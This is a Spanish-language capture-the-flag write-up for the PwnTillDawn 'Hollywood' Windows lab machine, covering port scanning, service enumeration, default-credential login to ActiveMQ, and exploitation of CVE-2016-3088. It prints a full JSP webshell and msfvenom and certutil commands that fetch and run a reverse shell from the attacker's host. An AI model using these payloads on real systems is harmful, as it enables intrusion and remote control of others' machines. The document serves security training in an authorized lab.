


# WRITEUP HOLLYWOOD

### ESCANEO
#### 10.150.150.219	Windows	Easy
```
PORT      STATE SERVICE
21/tcp    open  ftp
25/tcp    open  smtp
79/tcp    open  finger
80/tcp    open  http
105/tcp   open  csnet-ns
106/tcp   open  pop3pw
110/tcp   open  pop3
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
143/tcp   open  imap
443/tcp   open  https
445/tcp   open  microsoft-ds
554/tcp   open  rtsp
1883/tcp  open  mqtt
2224/tcp  open  efi-mg
2869/tcp  open  icslap
3306/tcp  open  mysql
5672/tcp  open  amqp
8009/tcp  open  ajp13
8080/tcp  open  http-proxy
8089/tcp  open  unknown
8161/tcp  open  patrol-snmp
10243/tcp open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
49251/tcp open  unknown
61613/tcp open  unknown
61614/tcp open  unknown
61616/tcp open  unknown
```

Siempre al escanear un objetivo, debemos primero ir por los puertos más comunes que en este caso es el 21,80,445,25 y 443.
Por el momento nos enfocaremos en esos puertos, dado el caso que no encontremos nada, nos iremos por el resto.

### ENUMERACIÓN

```
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
25/tcp  open  smtp         Mercury/32 smtpd (Mail server account Maiser)
|_smtp-commands: localhost Hello nmap.scanme.org; ESMTPs are:, TIME, 
80/tcp  open  http         Apache httpd 2.4.34 ((Win32) OpenSSL/1.0.2o PHP/5.6.38)
|_http-server-header: Apache/2.4.34 (Win32) OpenSSL/1.0.2o PHP/5.6.38
| http-title: Welcome to XAMPP
|_Requested resource was http://10.150.150.219/dashboard/
443/tcp open  ssl/http     Apache httpd 2.4.34 ((Win32) OpenSSL/1.0.2o PHP/5.6.38)
|_http-server-header: Apache/2.4.34 (Win32) OpenSSL/1.0.2o PHP/5.6.38
| http-title: Welcome to XAMPP
|_Requested resource was https://10.150.150.219/dashboard/
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Hosts: localhost, HOLLYWOOD; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1h46m42s, deviation: 4h37m05s, median: 53m15s
| smb-os-discovery: 
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: Hollywood
|   NetBIOS computer name: HOLLYWOOD\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-03-09T16:10:09+08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-09T08:10:08
|_  start_date: 2020-04-02T14:13:04
```

Al intentar acceder como "anonymous" por el servicio FTP, podemos ver que no está activado ese usuario, por ende, lo dejaremos de lado.
```──╼ #ftp 10.150.150.219 
Connected to 10.150.150.219.
220-FileZilla Server version 0.9.41 beta
220-written by Tim Kosse (Tim.Kosse@gmx.de)
220 Please visit http://sourceforge.net/projects/filezilla/
Name (10.150.150.219:root): anonymous
331 Password required for anonymous
Password:
530 Login or password incorrect!
Login failed.
```

Ahora, el puerto 80 y 443 parecen ser interesantes ya que nos arroja un titulo de "XAMP" en ambos puertos.


Si accedemos a la seccion de phpmyadmin, podemos ver que nos lanza un error "ACCESS FORBIDDEN!" pero como en todos los lugares que aparezca "webmaster" siempre es importante ver si nos proporcionan algún correo del admin, ya que nos podría funcionar como usuario potencial al intentar fuerza bruta en otro servicio y vualá, vemos que ahí está una flag.


Al hacer fuzzing de directorios no nos arrojó nada y di por hecho que es todo lo que encontraré en este sitio. Por lo tanto pasaré a probar el servicio SMB.
intentaré comprobar si me permite acceder por sesiones nulas.
```
┌─[niggurath@parrot]─[~/pwntilldawn/hollywood]
└──╼ #smbclient --no-pass -L //10.150.150.219
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
SMB1 disabled -- no workgroup available
```
al parecer tampoco nos permite acceder a ningun recurso compartido por lo tanto pasaré a enumerar los servicios y versiones que corren en el resto de puertos que dejamos de lado ya que los puertos más comunes no nos arrojaron nada interesante.

```
┌─[niggurath@parrot]─[~/pwntilldawn/hollywood]
└──╼ #nmap -sC -sV -p79,105,106,110,135,139,143,443,445,554,1883,2224,2869,3306,8009,8080,8089,8161 10.150.150.219 -oN servicios
```

```
PORT     STATE SERVICE        VERSION
79/tcp   open  finger         Mercury/32 fingerd
| finger: Login: Admin         Name: Mail System Administrator\x0D
| \x0D
|_[No profile information]\x0D
105/tcp  open  ph-addressbook Mercury/32 PH addressbook server
106/tcp  open  pop3pw         Mercury/32 poppass service
110/tcp  open  pop3           Mercury/32 pop3d
|_pop3-capabilities: TOP USER UIDL EXPIRE(NEVER) APOP
135/tcp  open  msrpc          Microsoft Windows RPC
139/tcp  open  netbios-ssn    Microsoft Windows netbios-ssn
143/tcp  open  imap           Mercury/32 imapd 4.62
|_imap-capabilities: OK complete IMAP4rev1 CAPABILITY X-MERCURY-1A0001 AUTH=PLAIN
443/tcp  open  ssl/http       Apache httpd 2.4.34 ((Win32) OpenSSL/1.0.2o PHP/5.6.38)
|_http-server-header: Apache/2.4.34 (Win32) OpenSSL/1.0.2o PHP/5.6.38
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds   Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
554/tcp  open  rtsp?
1883/tcp open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
2224/tcp open  http           Mercury/32 httpd
|_http-title: Mercury HTTP Services
2869/tcp open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
3306/tcp open  mysql          MariaDB (unauthorized)
8009/tcp open  ajp13          Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http           Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.56
8089/tcp open  ssl/http       Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2019-10-28T09:17:32
|_Not valid after:  2022-10-27T09:17:32
8161/tcp open  http           Jetty 8.1.16.v20140903
|_http-server-header: Jetty(8.1.16.v20140903)
|_http-title: Apache ActiveMQ
Service Info: Hosts: localhost, HOLLYWOOD; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1h46m42s, deviation: 4h37m05s, median: 53m15s
| smb-os-discovery: 
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: Hollywood
|   NetBIOS computer name: HOLLYWOOD\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-03-09T16:34:17+08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-09T08:34:22
|_  start_date: 2020-04-02T14:13:04
```
ahora tenemos más puertos pero los más resaltantes vuelven a ser los servicios que sean relacionados a lo web.
vemos 3 puertos relacionados a eso, que es el 8080,8089 y 8161. Desglosemos uno por uno.

##### puerto 8080
```
#searchsploit Tomcat 7.0.56
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                        |  Path
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)          | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)          | jsp/webapps/42966.py
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
##### puerto 8089
```
#searchsploit splunk
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                        |  Path
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
Splunk - Remote Command Execution                                                                                     | multiple/remote/18245.py
Splunk 4.1.6 - 'segment' Cross-Site Scripting                                                                         | multiple/remote/36246.txt
Splunk 4.1.6 Web Component - Remote Denial of Service                                                                 | multiple/dos/36247.txt
Splunk 4.3.1 - Denial of Service                                                                                      | multiple/dos/38038.txt
Splunk 4.3.3 - Arbitrary File Read                                                                                    | multiple/webapps/21053.txt
Splunk 5.0 - Custom App Remote Code Execution (Metasploit)                                                            | multiple/remote/23224.rb
Splunk 6.1.1 - 'Referer' Header Cross-Site Scripting                                                                  | php/webapps/40997.txt
Splunk < 7.0.1 - Information Disclosure                                                                               | linux/webapps/44865.txt
Splunk Enterprise - Information Disclosure                                                                            | multiple/webapps/41779.txt
Splunk Enterprise 6.4.3 - Server-Side Request Forgery                                                                 | multiple/webapps/40895.py
Splunk Enterprise 7.2.3 - (Authenticated) Custom App Remote Code Execution                                            | windows/webapps/46238.py
Splunk Enterprise 7.2.4 - Custom App Remote Command Execution (Persistent Backdoor / Custom Binary)                   | windows/webapps/46487.py
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
como no sabemos la versión de splunk, dejaremos de lado este servicio.
##### puerto 8161
```
└──╼ #searchsploit ActiveMQ
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                        |  Path
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
ActiveMQ < 5.14.0 - Web Shell Upload (Metasploit)                                                                     | java/remote/42283.rb
Apache ActiveMQ 5.11.1/5.13.2 - Directory Traversal / Command Execution                                               | windows/remote/40857.txt
Apache ActiveMQ 5.2/5.3 - Source Code Information Disclosure                                                          | multiple/remote/33868.txt
Apache ActiveMQ 5.3 - 'admin/queueBrowse' Cross-Site Scripting                                                        | multiple/remote/33905.txt
Apache ActiveMQ 5.x-5.11.1 - Directory Traversal Shell Upload (Metasploit)                                            | windows/remote/48181.rb
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Ahora que ya vimos lo que posiblemente pueda funcionar, resta acceder a esos puertos desde el navegador y ver lo que nos muestra.

Al entrar a puerto 8161 que es el puerto que tiene como servicio ACTIVEMQ, podemos ver que hay una sección muy interesante llamada "Manage ActiveMQ broker"




### EXPLOTACIÓN 

Como en cada formulario de inicio de sesión, siempre hay que intentar loguearnos con credenciales por defecto. Ejemplos de contraseñas por defecto:
```
admin:admin
admin:123
root:root
root:toor
administrator:administrator
```

si intentamos ingresar con la contraseña por defecto al panel de administración, nos daremos cuenta que nos da acceso y encontramos la siguiente flag y más información interesante, como por ejemplo, la versión. (5.11.1)


si volvemos a la parte donde buscamos exploits para ActiveMQ, vimos que habían un par. 
Tenemos 2 posibles vías de explotación, usando Metasploit o intentar ejecutar el exploit a "mano". Nosotros lo haremos a mano.
Según el CVE-2016-3088, hay una vulnerabilidad que nos permite subir una webshell estando autenticados.

así que al intentar subir la webshell, se sube sin problema alguno.


la webshell que se envió fue esta:
```
<%@ page import="java.util.*,java.io.*"%>  
 <%  
 %>  
 <HTML><BODY>  
 Commands with JSP  
 <FORM METHOD="GET" NAME="myform" ACTION="">  
 <INPUT TYPE="text" NAME="cmd">  
 <INPUT TYPE="submit" VALUE="Send">  
 </FORM>  
 <pre>  
 <%  
 if (request.getParameter("cmd") != null) {  
 out.println("Command: " + request.getParameter("cmd") + "<BR>");  
 Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));  
 OutputStream os = p.getOutputStream();  
 InputStream in = p.getInputStream();  
 DataInputStream dis = new DataInputStream(in);  
 String disr = dis.readLine();  
 while ( disr != null ) {  
 out.println(disr);  
 disr = dis.readLine();  
 }  
 }  
 %>  
 </pre>  
 </BODY></HTML> 
```

Ahora, al acceder a nuestra webshell, podemos ver que podemos ejecutar comandos correctamente.


Ahora lo que sigue es descargar una reverse shell en la maquina victima para entablarnos una shell.
para ello utilizaremos msfvenom

`msfvenom -p windows/shell_reverse_tcp lhost=10.66.66.106 lport=443 -f exe > rs.exe`

Una vez creado nuestra reverse shell, montamos un servidor http y descargamos nuestra shell con la ayuda de la webshell

`python3 -m http.server 80` (montar nuestro servidor http)

ahora descargamos nuestro exe con la ayuda de certutil que es la "versión" wget en windows.

`certutil -urlcache -split -f http://10.66.66.106/rs.exe C:\\Windows\\System32\\spool\\drivers\\color\\rs.exe`

y vualá, tenemos shell.


ahora sólo queda buscar la última flag que está en "Documents" y listo, tendríamos a Hollywood terminada.




Contacto: [Linkedin](https://www.linkedin.com/in/jair-rodriguezz/) [Twitter](https://twitter.com/_niggurath_)


Write-ups have been authorized for this machine by the PwnTillDawn Crew! We are just asking you to give us credit by adding a backlink to [wizlynxgroup](https://www.wizlynxgroup.com/) and [Pwntilldawn](https://online.pwntilldawn.com/) in your write-up.
